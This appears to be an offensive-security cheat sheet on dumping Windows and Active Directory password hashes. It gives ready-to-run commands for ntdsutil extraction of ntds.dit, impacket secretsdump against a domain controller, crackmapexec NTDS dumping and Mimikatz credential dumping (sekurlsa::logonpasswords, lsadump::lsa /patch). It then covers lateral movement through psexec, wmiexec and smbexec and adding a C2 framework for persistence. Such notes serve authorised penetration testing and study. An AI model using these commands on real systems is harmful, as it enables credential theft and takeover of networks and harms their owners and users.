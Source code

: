 > powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
 
 This will dump a ntds and system hive in specified directory. We can then copy it back to our machine and dump hashes using secretsdump.py
 
 > /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local


REMOTELY:

If we have valid credentials for a domain controller then we can dump all the hashes directly from our machine

> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm domain.name/username@IPADDRESS
> crackmapexec smb IP-RANGE/ADDRESSES -u username -H hash or password -d domainname --ntds



#### On Disk Using Mimikatz


Note : If we are administrator or similiar privileges but we are getting error on running mimikatz , list down the process and migrate to a process  running as administrator . Same goes for if we are system but our process might be in administrator contex


1. First open the mimikatz binary

2. Now type in following to get us system privileges on mimikatz shell

privilege::debug
token::elevate


If we want we could log Mimikatz output with the log command. For example: log c:\windows\temp\mimikatz.log, would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.

3. We can now dump the hashes using the follwoing command

> lsadump::sam  (FOR NORMAL windows) 

  OR

> sekurlsa::logonpasswords  (Dump hashes from current active sessions)


 OR 
 
> lsadump::lsa /patch  (for Windows AD server)







## Gain access in other machines 

We can use smbexec,wmiexec,psexec using the gained credentials for a semi interactive shell.Then we can find a way to gain a interactive shell or pipe a C2 Framework like empire for persistence or post exploitation.psexec is noisy and should be as a last resort

